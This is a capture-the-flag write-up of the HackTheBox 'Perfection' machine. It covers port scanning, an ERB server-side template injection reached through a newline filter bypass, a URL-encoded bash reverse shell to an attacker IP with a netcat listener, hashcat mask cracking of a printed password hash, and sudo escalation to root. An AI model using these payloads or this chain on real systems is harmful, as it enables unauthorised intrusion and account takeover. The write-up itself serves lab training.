 # Perfection machine from [HackTheBox](https://www.hackthebox.com/)

Target IP: 10.10.11.253

### Topics / tools
* [SSTI](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby) using Ruby and bypassing special character restriction
* Hashcat for brute forcing a hash using [masks](https://hashcat.net/wiki/doku.php?id=mask_attack)

## Enumeration and reconnaissance
As always we start enumerating the target machine 
```
nmap -sS -p- -n --min-rate 5000 -vvv -oG open_ports 10.10.11.253
```
After finding ports 22 (SSH) and 80 (HTTP) open we use nmap script engine to obtain more information, such as services running, versions and any information the default scripts may retrieve
```
nmap -sCV -p22,80 -vvv --min-rate 5000 -n -oN target_ports 10.10.11.253
```
We don't see much more valuable information, so let's explore the http server.

## Gaining access to target machine

In the browser we go to `http://10.10.11.1253` and see a very simple application called 'Weighted Grade Calculator'. The tab 'Calculate your weighted grade' redirect us to a page where are several fields for us to add grade notes, it's name and the weight. After filling some of those rows if we press the button below we get a result showing the result of the weighted grade, so far so good.

Using Burpsuite we can try to tamper with the payload request, modifying either the grades, weights or the category. After playing a while with it we can confirm that there is some level of input sanitization because we can't add strings as grade nor adding weights that adds to more than 100.
But something caught up my attention, when using special characters in the payload, such as `'<%(`, we received a response saying "invalid input". 
Doing some reasearch online it appears that using `%0A` work as a payload bypass.

Now that we can bypass this security we should look into potential payloads to vulnerate the machine. Given that the application is doing math operations and thanks to the server response we can see it's using Ruby, let's try some simple Serve Side Template Injection [payloads](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#erb-ruby).

The image below shows both the characters used for bypass and the STTI payloads. As we can see in the responsem the first two STTI payloads didn't work out, but the third one did: `<%= 7*7 %>`. One very important detail is that it's URL encoded, so `<%= 7*7 %>` --URL-enconding--> `<%25%3d+7*7+%25>`

![SSTI Payload](imgs/SSTI-payloads.png)

We were able to execute code in the target machine!!

Now let's craft a payload that will give us access to the machine:
```
system("bash -c 'bash -i >& /dev/tcp/<MY-IP>/443 0>&1'")
# And let's URL encode that
<%25%3d+system("bash -c 'bash+-i+>%26+/dev/tcp/10.10.14.33/443+0>%261'")+%25>
```

On the host machine we start a listener on the same port using netcat
`nc -nlvp 443` and go back to Burpsuite and send the request. It's okey if we don't see any reponse from the server on Burpuiste, we should go to the listener terminal and verify we received a connection from the target machine.
![Reverse shell payload](imgs/payload.png)

As the user 'susan' we can access the `user.txt` flag.
```
> nc -nlvp 443
susan@perfection:~/ruby_app$ ls ~/
ls ~/
Migration
ruby_app
user.txt
```


## Scalating privileges

While playing around from the target machine and inspecting several files I found an intersting one: `cat /var/mail/susan`.
This file contains the format of the password for the susan user: susan_nasus_{a random number from 1 to 1000000000}
![Interesting file](imgs/interesting-file.png)

We could try to brute force that, for sure. But let's looking around a bit more to gain more knowledge of the system.

In the `/home/susan` directory we find a `Migration` folder that contains a file called `pupilpath_credentials.db` and after echoing it's content it happens to contain a hash, most likely the hash of the password.

Susan password hash: 
`abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`


So knowing the hash password along with the format schema we previously found we can use hashcat and build a mask that matches the password format hoping to crack the hash.

Hashcat command
```
hashcat -m 1400 -a 3 <HASH-FILE> susan_nasus_?d?d?d?d?d?d?d?d?d
```
`-m 1400:` the mode 1400 is SHA2-256, the same the SSH server was using acording to nmap \
`- a 3:` we select brute force as attack mode
As per the mask, more information can be found [here](https://hashcat.net/wiki/doku.php?id=mask_attack), the most important thing is we want to match numbers only.

![Cracking the hash with hashcat](imgs/hashcat-passwd.png)


Once hashcat cracks the hash we obtain the password. What can we do with that?
Well one of the goes-to when compromising a machine is running `sudo -l` to see what commands we can run as sudo.
It happens that susan can ran every command as sudo!!

So we just run
```
# switch to root user
> sudo su
> whoami
root
> cat /root/root.txt
```

### Summary

We were able to compromise this machine because of the following vulnerabilities:

* SSTI which allowed us to stablish a reverse shell
* A file containing user hash pasword in plain text
* A file containing the password format in plain text
* The user has sudoer permissions to run any command
